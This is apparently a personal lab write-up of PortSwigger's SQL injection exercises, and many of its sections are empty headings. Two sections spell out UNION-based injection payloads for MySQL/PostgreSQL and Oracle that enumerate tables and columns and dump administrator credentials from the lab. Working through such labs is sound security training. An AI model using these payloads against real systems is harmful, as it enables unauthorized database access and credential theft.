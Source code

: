 ```yaml
---
title: SQL injection
tags:
  - 渗透
abbrlink: 8b56535a
description: SQL injection based on PostSwigger Lab
date: 2024-03-17 00:26:00
---
```


[PostSwigger Lab - SQL injection](https://portswigger.net/web-security/sql-injection)

**Tools**：BurpSuite，Chrome，switchyomega

## 0x00 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## 0x01 SQL injection vulnerability allowing login bypass

## 0x02 SQL injection attack, querying the database type and version on Oracle

## 0x03 SQL injection attack, querying the database type and version on MySQL and Microsoft

## 0x04 SQL injection attack, listing the database contents on non-Oracle databases
***End Goals***:
- Determine the table that contains usernames andpasswords
- Determine the relevant columnsOutput the content of the table
- Login as the administrator user

***Analysis***:
1. Find the number of columns
`' order by 3--` -> Internal server error -> 3-1=2
2. Find the data type of the columns
`' UNION select 'a','a'--` -> both columns accept type text
3. Version of the database
    - `' UNION SELECT @@version, NULL--` -> not Microsoft
    - `' UNION SELECT version()，NULL--` ->200 0K `PostgreSQL 12.17 (Ubuntu 12.17-0ubuntu0.20.04.1)`
4. Output the list of table names in the database
    `' UNION SELECT table_name, NULL FROM information_schema.tables--` -> search `users` -> `users_vqrxmy`
5. Output the column names of the table
    `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_vqrxmy'--` -> `password_bfrqkp` and `username_rwstyz`

6. Output the usernames and passwords
`' UNION select username_rwstyz, password_bfrqkp from users_vqrxmy--` -> `administrator` and `lftog9bgwjw81hj0feiy`


## 0x05 SQL injection attack, listing the database contents on Oracle
***End Goals***:
- Determine which table contains the usernames and passwords
- Determine the column names in table
- Output the content of the table
- Login as the administrator user

***Analysis***:
1. Determine the number of columns
`' order by 3--` -> Internal server error -> 3-1=2
2. Find the data type of the columns
Oracle database -> `' UNION select 'a','a' from DUAL--` -> both columns accept type text
3. Output the list of tables in the database
`' UNION SELECT table_name, NULL FROM all_tables--` -> search `users` -> `USERS_MQOBSV`
4. Output the column names of the users table
`' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='USERS_MQOBSV'--` -> `USERNAME_APTSKD` and `PASSWORD_QXOINH `
5. Output the list of usernames and passwords
`' UNION select USERNAME_APTSKD, PASSWORD_QXOINH from USERS_MQOBSV--` -> `administrator` and
`dvqljtgry480ary2i1iu`

## 0x06 SQL injection UNION attack, determining the number of columns returned by the query

## 0x07 SQL injection UNION attack, finding a column containing text

## 0x08 SQL injection UNION attack, retrieving data from other tables

## 0x09 SQL injection UNION attack, retrieving multiple values in a single column

## 0x0A Blind SQL injection with conditional responses
***End Goals***:

***Analysis***:

## SQL injection with filter bypass via XML encoding